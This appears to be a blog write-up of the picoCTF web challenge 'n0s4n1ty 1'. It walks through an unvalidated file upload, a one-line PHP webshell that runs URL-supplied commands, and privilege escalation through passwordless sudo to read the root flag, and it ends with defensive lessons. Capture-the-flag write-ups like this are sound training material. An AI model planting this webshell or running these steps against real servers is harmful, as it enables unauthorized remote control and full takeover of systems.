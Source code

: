 ```yaml
---
layout: post
title: "picoCTF - n0s4n1ty 1"
date: 2025-04-20
categories: [CTF, Web, picoCTF, File Upload, RCE]
-------------------------------------------------

## Overview

This picoCTF challenge presented a PHP-based web server with a file upload feature. I identified a lack of file validation, which allowed me to upload a malicious PHP webshell, gain Remote Code Execution (RCE), and eventually escalate privileges to capture the flag.

---
```


## Step 1: Initial Recon

The server allowed file uploads without strong validation. I suspected it lacked MIME type or file content checks.
![Initial Recon](/assets/img/picoctf/noinsanity1/img1.png)

I created a simple PHP webshell:

**shell.php**

```php
<?php system($_GET['cmd']); ?>
```

I uploaded the file successfully and accessed it at:

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php
```

---
![Shell Upload](/assets/img/picoctf/noinsanity1/img2.png)


## Step 2: Gaining Remote Code Execution

To verify code execution, I ran:

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php?cmd=ls+-al
```
![RCE Success](/assets/img/picoctf/noinsanity1/img3.png)

The output showed that commands were executed on the server under the `/uploads` directory as the `www-data` user.

---

## Step 3: Privilege Escalation

### 1. Search for SUID Binaries

I ran this to check which binaries run as their owner (usually root) regardless of who executes them:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Key result:

```
/usr/bin/sudo
```
![SUID Results](/assets/img/picoctf/noinsanity1/img4.png)


### 2. Check Sudo Permissions

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: ALL
```
![Sudo Permissions](/assets/img/picoctf/noinsanity1/img5.png)


This meant I could run **any command as root** with `sudo` and **no password required**.

### 3. Read the Flag

```bash
sudo cat /root/flag.txt
```

Flag obtained 🎯

```
picoCTF{example_flag_here}
```

---

## Conclusion

This challenge was a great example of a classic **file upload vulnerability** that led to full **server takeover**. Once RCE was achieved via a PHP shell, enumeration and misconfigured sudo permissions allowed for **easy privilege escalation**.



Lessons:

- Always validate uploaded file types and contents.
- Disable execution permissions in upload directories.
- Restrict `sudo` access tightly.

**Flag:** `picoCTF{picoCTF{example_flag_here}}`

